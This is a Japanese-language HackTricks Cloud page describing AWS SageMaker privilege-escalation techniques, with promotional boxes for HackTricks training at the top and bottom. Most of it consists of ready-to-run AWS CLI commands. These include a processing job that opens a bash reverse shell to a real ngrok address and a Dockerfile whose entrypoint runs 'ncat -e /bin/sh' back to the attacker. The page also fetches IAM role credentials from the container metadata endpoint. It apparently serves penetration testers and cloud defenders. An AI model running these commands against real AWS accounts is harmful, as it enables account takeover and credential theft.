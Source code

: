 # AWS - Sagemaker Privesc

<details>

<summary><strong>ゼロからヒーローまでのAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)で**フォロー**する。
- **ハッキングテクニックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>

## sagemaker

### `iam:PassRole`、`sagemaker:CreateNotebookInstance`、`sagemaker:CreatePresignedNotebookInstanceUrl`

IAMロールにアクセスするためのノートブックの作成を開始します：
```
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
以下は、新しく作成されたノートブックインスタンスのARNを含む`NotebookInstanceArn`フィールドを含んでいます。その後、`create-presigned-notebook-instance-url` APIを使用して、準備ができたらノートブックインスタンスにアクセスするために使用できるURLを生成できます:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
アドレスバーに移動し、右上の「Open JupyterLab」をクリックし、次に「ランチャー」タブにスクロールして、「その他」セクションの下にある「Terminal」ボタンをクリックします。

これでIAMロールのメタデータ資格情報にアクセスできます。

**潜在的な影響:** 指定されたsagemakerサービスロールへの特権昇格。

### `sagemaker:CreatePresignedNotebookInstanceUrl`

すでにJupyter **ノートブックが実行中**である場合、`sagemaker:ListNotebookInstances`を使用してそれらをリストできます（または他の方法でそれらを発見できます）。**それらのためのURLを生成し、アクセスし、前述のテクニックで資格情報を盗むことができます**。
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**潜在的影響:** sagemaker サービスロールへの権限昇格。

### `sagemaker:CreateProcessingJob,iam:PassRole`

これらの権限を持つ攻撃者は、sagemaker が sagemaker ロールがアタッチされた processingjob を実行することができます。攻撃者は、実行されるコンテナの定義を示し、AWS 管理の ECS アカウントインスタンスで実行されるコンテナの定義を示し、アタッチされた IAM ロールの資格情報を盗むことができます。
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**潜在的影響:** 指定されたSagemakerサービスロールへの権限昇格。

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

これらの権限を持つ攻撃者は、トレーニングジョブを作成し、それにアタッチされたロールを持つ**任意のコンテナを実行**することができます。したがって、攻撃者はそのロールの資格情報を盗むことができます。

{% hint style="warning" %}
このシナリオは前のものよりも難しいため、トレーニングジョブの構成で開始コマンドを指定できないため、Dockerイメージを生成して、revシェルまたは資格情報を直接攻撃者に送信する必要があります。
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**潜在的影響:** 指定されたsagemakerサービスロールへの権限昇格。

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

これらの権限を持つ攻撃者は、**ハイパーパラメータチューニングジョブ**を作成し、それに**アタッチされたロール**で**任意のコンテナを実行**することができる可能性があります。\
_時間の不足のため未だ悪用していませんが、以前の脆弱性に似ているようです。悪用の詳細を送信する際は、お気軽にPRを送ってください。_

# 参考文献
* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

<details>

<summary><strong>**htARTE (HackTricks AWS Red Team Expert)**でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)を**フォロー**する。
* **HackTricks**と**HackTricks Cloud**のgithubリポジトリにPRを提出して、あなたのハッキングトリックを共有してください。

</details>
